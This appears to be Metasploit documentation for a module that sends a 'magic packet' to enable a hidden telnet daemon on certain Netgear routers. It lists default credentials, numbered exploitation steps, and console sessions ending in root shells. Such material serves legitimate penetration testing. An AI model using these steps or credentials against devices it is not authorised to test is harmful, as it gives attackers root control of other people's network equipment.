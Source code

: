 ## Intro

Several models of Netgear devices have a hidden telnet daemon that can be
enabled for remote LAN users by sending a 'magic packet' to the device. 
Upon successful connect, a root shell should be presented to the user.

There are many devices which contain this daemon, for a full list see [OpenWrt](https://wiki.openwrt.org/toh/netgear/telnet.console).

This module has been successfully tested against:

 - AC1450 - unknown older firmware (TCP)
 - AC1450 - latest firmware: V1.0.0.36_10.0.17 (UDP)
 - N300 WNR2000 v3 - firmware: V1.1.2.10 (TCP)

## Setup

A MAC address is required for exploitation.  To determine the MAC address of the device:

1. Ping the device to force an ARP lookup: ```ping -c 1 [IP]```
2. Get the MAC: ```arp -an [IP]```

If you are the root user, you can skip this step. ARP will be leveraged
to find the MAC address.

## Targets

**0 (Automatic)**

Detect if a device listens on TCP or UDP.

**1 (TCP)**

Older devices usually listen on TCP.

**2 (UDP)**

Newer devices usually listen on UDP.

## Options

**MAC**

Set this to the MAC address of the device. You can use `ping` and `arp`
to find it.

You can leave this blank if you're root.

**USERNAME**

If this is an older device, it'll take the value of `super_username` in
`nvram`, which is usually unchanged from `Gearguy`.

If this is a newer device, it'll take the web UI username, which is
usually unchanged from `admin`.

You can leave this blank to use the default username.

**PASSWORD**

If this is an older device, it'll take the value of `super_passwd` in
`nvram`, which is usually unchanged from `Geardog`.

If this is a newer device, it'll take the web UI password, which is
usually unchanged from `password`.

You can leave this blank to use the default password.

## Exploitation 

1. Make sure you have a vulnerable device
2. Start metasploit
3. ```use exploit/linux/telnet/netgear_telnetenable```
4. ```set rhost [IP]```
5. ```set mac [MAC Address]``` if not running as root
6. ```exploit```
7. Enjoy a root shell!

## Usage

### AC1450

As a normal user:

```
msf5 > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf5 exploit(linux/telnet/netgear_telnetenable) > ping -c 1 192.168.1.1
[*] exec: ping -c 1 192.168.1.1

PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=2.04 ms

--- 192.168.1.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 2.041/2.041/2.041/0.000 ms
msf5 exploit(linux/telnet/netgear_telnetenable) > arp -an 192.168.1.1
[*] exec: arp -an 192.168.1.1

? (192.168.1.1) at [redacted] [ether] on wlan0
msf5 exploit(linux/telnet/netgear_telnetenable) > set mac [redacted]
mac => [redacted]
msf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.3:34833 -> 192.168.1.1:23) at 2018-03-02 19:26:25 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```

As root:

```
msf5 > use exploit/linux/telnet/netgear_telnetenable
msf5 exploit(linux/telnet/netgear_telnetenable) > set rhost 192.168.1.1
rhost => 192.168.1.1
rmsf5 exploit(linux/telnet/netgear_telnetenable) > run

[+] 192.168.1.1:23 - Detected telnetenabled on UDP
[*] 192.168.1.1:23 - Attempting to discover MAC address via ARP
[+] 192.168.1.1:23 - Found MAC address [redacted]
[+] 192.168.1.1:23 - Using creds admin:password
[*] 192.168.1.1:23 - Generating magic packet
[*] 192.168.1.1:23 - Connecting to telnetenabled via UDP
[*] 192.168.1.1:23 - Sending magic packet
[*] 192.168.1.1:23 - Disconnecting from telnetenabled
[*] 192.168.1.1:23 - Waiting for telnetd
[*] 192.168.1.1:23 - Connecting to telnetd
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.2:37771 -> 192.168.1.1:23) at 2018-03-02 19:33:42 -0600

id
id
uid=0 gid=0(root)
# uname -a
uname -a
Linux (none) 2.6.36.4brcmarm+ #16 SMP PREEMPT Wed Mar 22 15:02:38 CST 2017 armv7l unknown
#
```
